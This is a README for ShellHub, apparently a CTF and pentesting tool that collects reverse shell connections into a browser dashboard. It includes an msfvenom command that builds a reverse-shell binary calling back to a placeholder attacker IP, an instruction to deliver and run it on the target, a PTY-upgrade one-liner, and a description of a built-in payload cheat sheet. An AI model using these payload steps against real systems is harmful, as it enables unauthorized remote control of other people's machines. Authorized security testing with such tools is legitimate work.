

<div align="center">
  <h1>🐚 ShellHub</h1>
  <p><b>Lightweight web-based reverse shell session manager</b></p>
  <p>Manage multiple shells from your browser — no more juggling terminal windows.</p>
  <p>
    
    
    
    
  </p>
</div>



---

## Features

| Feature | Description |
|---------|-------------|
| **Web Dashboard** | All sessions in one browser UI with live online/offline status |
| **In-Browser Terminal** | Full xterm.js terminal — send commands, see output live |
| **Raw Mode** | Toggle for PTY-spawned shells — proper arrow keys, tab completion, Ctrl+C |
| **Session History** | All output saved to SQLite — persists across restarts |
| **Session Naming** | Double-click to rename sessions (e.g., `THM Pickle Rick`) |
| **Notes & Flags** | Attach notes and captured flags per session, synced across browser tabs |
| **Cheat Sheet** | Built-in reference for payloads, commands, post-exploitation |
| **Lightweight** | Single Python file, no DB setup, minimal dependencies |

---

## 🚀 Quick Start

```bash
git clone https://github.com/NullSec8/ShellHub.git
cd ShellHub
pip install -r requirements.txt
python shellhub.py
```

Open **[http://localhost:8080](http://localhost:8080)**.

---

## Usage

### Basic workflow

1. ShellHub listens for reverse shells on **port 4444**
2. Generate a payload pointing to your IP:

   ```bash
   msfvenom -p linux/x86/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f elf -o shell.elf
   ```

3. Deliver & run the payload on the target
4. The session appears in your browser — **click to interact**

### Raw Mode (PTY)

For interactive shells with proper terminal support:

```bash
# On the target, after connecting:
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Then toggle **Raw Mode ON** in the UI — this sends `\r` without converting to `\n`, giving you:
- Arrow keys (command history)
- Tab completion
- SIGINT (Ctrl+C)
- Proper job control

### Local test

```bash
# Terminal 1: start ShellHub
python shellhub.py

# Terminal 2: simulate a reverse shell
nc localhost 4444
```

---

## Configuration

Set environment variables to customize ports:

| Variable | Default | Description |
|----------|---------|-------------|
| `SHELLHUB_HOST` | `0.0.0.0` | Web UI bind address |
| `SHELLHUB_PORT` | `8080` | Web UI port |
| `SHELLHUB_TCP_HOST` | `0.0.0.0` | TCP listener bind address |
| `SHELLHUB_TCP_PORT` | `4444` | TCP listener port |

```bash
SHELLHUB_PORT=9090 SHELLHUB_TCP_PORT=5555 python shellhub.py
```

---

## Cheat Sheet

Built-in at [`/cheatsheet`](http://localhost:8080/cheatsheet) — includes:
- MSFVenom payloads for all platforms
- Reverse shell one-liners (bash, python, powershell, php, perl, nc)
- Metasploit listener setup & post-exploitation modules
- Linux & Windows enumeration commands
- Nmap, web scanning, Python HTTP server snippets

---

## 🛡️ Disclaimer

> This tool is for **educational purposes and authorized security testing only.**  
> Unauthorized use against systems you do not own or have explicit permission to test is illegal.

---

## License

[MIT](LICENSE)
